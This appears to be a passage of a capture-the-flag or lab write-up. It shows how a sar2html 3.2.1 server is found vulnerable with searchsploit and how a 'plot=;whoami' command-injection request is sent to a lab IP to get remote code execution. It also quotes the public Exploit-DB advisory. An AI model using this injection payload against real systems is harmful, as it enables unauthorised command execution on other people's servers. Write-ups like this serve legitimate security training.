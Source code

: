 
# exploitation
## remote code execution
### finding the exploit
```bash
$ searchsploit sar2html          
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                                                                                                 | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                                                                                     | php/webapps/47204.txt
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

> Using `/usr/share/exploitdb/exploits/php/webapps/47204.txt`
{: .prompt-info }

```bash
$ cat /usr/share/exploitdb/exploits/php/webapps/47204.txt
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen. 
```

### get code execution
#### request
```http
GET /sar2HTML/index.php/index.php?plot=;whoami HTTP/1.1
Host: 192.168.173.35
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=di3j28bd8phhpgldrvdiuv7aiq
Connection: close
```
